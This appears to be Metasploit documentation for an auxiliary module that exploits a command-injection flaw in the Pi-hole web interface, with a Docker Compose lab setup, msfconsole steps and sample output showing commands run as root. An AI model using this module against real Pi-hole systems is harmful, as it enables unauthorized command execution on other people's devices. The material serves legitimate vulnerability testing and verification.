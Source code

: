 ## Vulnerable Application

This exploits a command execution in Pi-Hole Web Interface <= 5.5.
The Settings > API/Web inetrace page contains the field
Top Domains/Top Advertisers which is validated by a regex which does not properly
filter system commands, which can then be executed by calling the gravity
functionality.  However, the regex only allows a-z, 0-9, _.

### Docker Compose

```
version: "3"

# More info at https://github.com/pi-hole/docker-pi-hole/ and https://docs.pi-hole.net/
services:
  pihole:
    container_name: pihole
    image: pihole/pihole:v5.5
    ports:
      #- "53:53/tcp"
      #- "53:53/udp"
      #- "67:67/udp"
      - "192.168.2.199:80:80/tcp"
    environment:
      TZ: 'America/Chicago'
      WEBPASSWORD: ''
    # Volumes store your data between container upgrades
    volumes:
      - './etc-pihole/:/etc/pihole/'
      - './etc-dnsmasq.d/:/etc/dnsmasq.d/'
    # Recommended but not required (DHCP needs NET_ADMIN)
    #   https://github.com/pi-hole/docker-pi-hole#note-on-capabilities
    cap_add:
      - NET_ADMIN
    restart: unless-stopped
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/admin/http/pihole_domains_api_exec`
2. Do: `set rhosts [ip]`
3. Do: `run`
4. You should get the output from the command.

## Options

### COMMAND

The command to run. This is VERY restrictive. Valid characters are `0-9`, `a-z`, `_`.
[Ref](https://github.com/pi-hole/AdminLTE/blob/v5.3.1/scripts/pi-hole/php/savesettings.php#L71). Defaults to `pwd`.

## Scenarios

### Pi-hole v5.2.4 with Web Interface 5.3.1 via Docker

```
[*] Processing pihole.rb for ERB directives.
resource (pihole.rb)> use auxiliary/admin/http/pihole_domains_api_exec
resource (pihole.rb)> set rhosts 192.168.2.199
rhosts => 192.168.2.199
resource (pihole.rb)> set verbose true
verbose => true
resource (pihole.rb)> run
[*] Running module against 192.168.2.199
[+] Web Interface Version Detected: 5.3.1
[*] Using token: YbGnWVA3ogVs0eLaKjEDGPaX8Zy1l5X3dxfHHSdy6r8=
[*] Sending payload request
[*] Forcing gravity pull
[+] /var/www/html/admin/scripts/pi-hole/php
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/pihole_domains_api_exec) > set command whoami
command => whoami
msf6 auxiliary(admin/http/pihole_domains_api_exec) > run
[*] Running module against 192.168.2.199

[+] Web Interface Version Detected: 5.3.1
[*] Using token: 9dtOO2bIndYSyJ1KsGYBa7pV5B4MToTQB1h2dmRfHk8=
[*] Sending payload request
[*] Forcing gravity pull
[+] root
[*] Auxiliary module execution completed
```

